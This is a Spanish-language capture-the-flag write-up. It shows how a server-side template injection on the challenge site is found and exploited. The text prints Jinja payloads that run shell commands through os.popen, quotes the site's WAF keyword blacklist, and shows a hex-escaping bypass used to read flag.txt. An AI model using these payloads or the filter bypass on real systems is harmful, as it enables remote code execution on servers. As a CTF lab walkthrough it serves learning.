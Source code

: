 # NextGen - N3XT_L3V3L
> Dominio dado: https://fxc99.ctf.n3xtl3v3l.site/

## Solucion
Al momento de entrar al sitio web podemos ver un input que nos solicita ingresar nuestro nombre o un payload, ingresare mi nickname: **Vishok** para ver su respuesta

![[Pasted image 20250826193027.png]]

Si un input se ve reflejado en alguna parte de la web, puede significar claramente que en el servidor este corriendo una *template*, lo cual nos da un indicio de que posiblemente es vulnerable a *SSTI*, para verificar, usaremos algunos payloads SSTI

El que encaje a la perfeccion es: `{{7*7}}`, este payload equivale a plantillas *Jinja* o *Twig*, si hay un SSTI podemos ejecutar comandos en el servidor y asi obtener la flag mediante comandos. Ahora probaremos un payload mas complejo:

```
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
```

Estamos intentando ejecutar el comando `id`, pero el servidor nos responde con lo siguiente:

> WAF BLOCKED: Malicious keyword found.

Existe un *WAF* implementado, el cual captura probablemente algunas palabras que lleven a una ejecucion decomandos como el `os`, `import`, entre otras, revisando la web con las herramientas de desarrollo encontramos lo siguiente:

```
const WAF_BLACKLIST = [
    'config', 'self', 'class',
    'os', 'import', 'eval', 'exec', 'popen', 'system', 'subprocess',
    'read', 'write', 'open', 'builtins', 
]
```

Dentro del Js de la web nos dejaron una pista, todas las palabras que el WAF detecta en nuestras request, dado que no podemos usar `join`, o **concatenacion**, debemos buscar otra forma, que que estos metodos no son las funciones como tal, son solo **strings**, los cuales no sirven
- `{{''.join(['s','e','l','f'])}}
- `{{''.join(['o','s'])}}`

Nuestra mejor opcion es buscar alguna forma de bypasear el WAF usando codificacion *url*, *base64* o *hexadecimal*, en el proceso encontre esta web: https://www.thehacker.recipes/web/inputs/ssti. Donde se usa codificacion hexadecimal

```
# \x5f is equal to _
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

# This payload is the same than the previous one
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x69\x64')['\x72\x65\x61\x64']() }}
```

Por tanto

![[Pasted image 20250826195619.png]]

Usando este payload podemos ejecutar comandos en el servidor, pero primero debemos encontrar donde esta la flag para despues leer su contenido, por lo que ocupamos codificar a hexadecimal los comandos `ls` y `cat flag.txt`
- `6c 73` = `ls` 
- `0a 63 61 74 20 66 6c 61 67 2e 74 78 74` = `cat flag.txt`

Primero buscaremos donde esta la flag

![[Pasted image 20250826200052.png]]

Lo unico que debemos hacer es sustituir el payload por el nuevo y listo, la flag esta en la misma ruta que estamos, asi que solo debemos usar el comando anterior sin modificaciones
- `echo '63 61 74 20 66 6c 61 67 2e 74 78 74' | sed -e 's/ /\\x/g'`

![[Pasted image 20250826200626.png]]

> La flag es: `n3xt{sst1_m4k3_4_p3rf3ct_ch4ll3ng3}`

